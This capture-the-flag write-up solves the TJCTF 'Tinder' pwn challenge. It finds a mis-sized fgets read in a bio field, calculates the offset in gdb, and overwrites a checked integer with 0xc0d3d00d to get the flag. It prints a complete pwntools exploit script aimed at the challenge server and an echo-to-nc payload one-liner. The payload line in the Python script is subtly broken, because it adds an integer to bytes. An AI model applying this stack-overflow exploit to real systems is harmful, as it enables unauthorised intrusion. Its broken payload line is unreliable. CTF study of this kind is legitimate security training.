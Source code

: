 # Tinder

Points: **25 Points**

nc p1.tjctf.org 8002

## My thought process:

Fire it up! Time to put my simulation dating skills to practice!

![Rejected!](example_run.png "Rejected!")

:( Maybe I'm not cool enough!
Just kidding, so taking notes, we have 4 inputs and username is reflected in "Registered {username} to TJTinder..", possible printf exploit?

So, let's try it!

![RejectedAgain!](printf_run.png "Rejected Again!")

No luck, we could try to overflow it, but let's look at the source code first. Even if its an overflow flaw, we should get more precision by reading the source. So I opened it in Ghidra.

Here's the core of the main function:

![main.c](main-function.png "main source code")


So if that int variable is equal something, we get our flag read! Amazing.

We probably want to deep dive into the functions that read our input, gets, scanf, read, but what's that? input? Never seem something like that, and what's even weirder, it takes a float argument? Hm....

Before jumping into the input function, let's take some notes on the code.

So I stripped some code to highlight our areas of interest.

![stripped.c](stripped.png "stripped code")

We have to check the input function and then look at the input we must pass to _my_checked_number_.

Let's look at the input function first.

![input.c](input.png "input function code")

It uses fgets to read, hmmm.., interesting, but how many chars does it read?

It reads our float passed to the function times 16.

🤔

![thinking emoji](https://media.giphy.com/media/CaiVJuZGvR8HK/giphy.gif "Thinking emoji")

What's the size of our buffers?

I've translated the input argument to the corresponding bytes read.

![input_bytes.c](input_bytes.png "input function code with bytes")

Oops! Looks like someone miscalculated something.

Now we now our entry point! We have to overflow the bios description and in some way overwrite _my_checked_number_.

Let's take a look at what we have to write in it.

I had a glance at it in gdb, but there's other ways you can find this value.
I was in gdb to check what was the offset needed to overflow our int.

I started throwing 64 bytes at it. With the following commands:

* b* main+231 (right after bio input)
* r < <(echo -e 'name\n''user\n''123\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
* x/80wx $esp

Let's look at the dissas code of main.

![main_gdb.c](main_gdb.png "main gdb")

So now we know that that value was 0xc0d3d00d, but how far off is 64 bytes from the int(ebp-0xc) ?

![offset_image](offset.png "offset gdb")

Our "A"'s are the 0x41, each block has 4 chars, we are 13 blocks away, so our offset is 64 + (13 * 4), and our payload:

'A'*(64 + (13 * 4)) + 0xc0d3d00d


---
_ps_: You could get 0xc0d3d00d by removing the signal of -0x3f2c2ff3, and then passing it to hex.

```python3
>>> # removing signal
>>> -0x3f2c2ff3 & 0xffffffff
3235106829
>>> # hexing the result
>>> hex(-0x3f2c2ff3 & 0xffffffff)
'0xc0d3d00d'
```  
  
  
### Final script
---

```python3
#!/usr/bin/env python
from pwn import *

#e = ELF('tinder')
#io = e.process()
io = remote('p1.tjctf.org', 8002)
#context.terminal = ['tmux', 'splitw','-h']
#gdb.attach(io)

io.recvuntil('Name: ')
io.sendline('name')
io.recvuntil('Username: ')
io.sendline('username')
io.recvuntil('Password: ')
io.sendline('password')
io.recvuntil('Bio: ')

payload = 64 + (13 * 4) * b'A'
payload += p32(0xc0d3d00d)
io.sendline(payload)

io.interactive()
```

We are using pwntools here, but if you are doing it by hand, with echo and stuff, remember little-endian.
Something like

```bash
echo -e 'name\n''user\n''pass\n''AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0d\xd0\xd3\xc0\n' | nc p1.tjctf.org 8002
```

### Result
---

```
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```